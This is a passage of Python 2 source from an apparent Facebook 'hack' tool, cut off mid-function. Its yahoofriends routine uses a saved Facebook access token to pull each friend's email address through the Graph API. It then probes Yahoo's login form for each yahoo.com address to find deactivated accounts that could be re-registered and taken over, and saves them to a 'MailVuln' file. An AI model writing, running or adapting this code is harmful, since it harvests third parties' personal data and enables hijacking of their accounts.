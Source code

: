 	go = raw_input("\033[1;97m╚═\033[1;91mD \033[1;97m")
	if go =="":
		print "\033[1;91m[!] Wrong"
		choose_yahoo()
	elif go =="1":
		yahoofriends()
	elif go =="2":
		yahoofromfriends()
	elif go =="3":
		yahoomember()
	elif go =="4":
		yahoolist()
	elif go =="0":
		menu_hack()
	else:
		print "\033[1;91m[!] Wrong"
		choose_yahoo()

##### LIST FRIEND #####
def yahoofriends():
	global fb_token
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('clear')
	print logo
	mpsh = []
	jcsb = 0
	mkdir('\033[1;91m[✺] \033[1;92mGetting email friend \033[1;97m...')
	friends = requests.get('https://graph.facebook.com/me/friends?access_token='+fb_token)
	mitchy = json.loads(friends.text)
	save = open('out/MailVuln.txt','w')
	mkdir('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	print 42*"\033[1;97m═"
	for w in mitchy['data']:
		jcsb +=1
		mpsh.append(jcsb)
		id = w['id']
		fb_name = w['name']
		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+fb_token)
		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				click = br.submit().read()
				seat = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					picks = seat.search(click).group()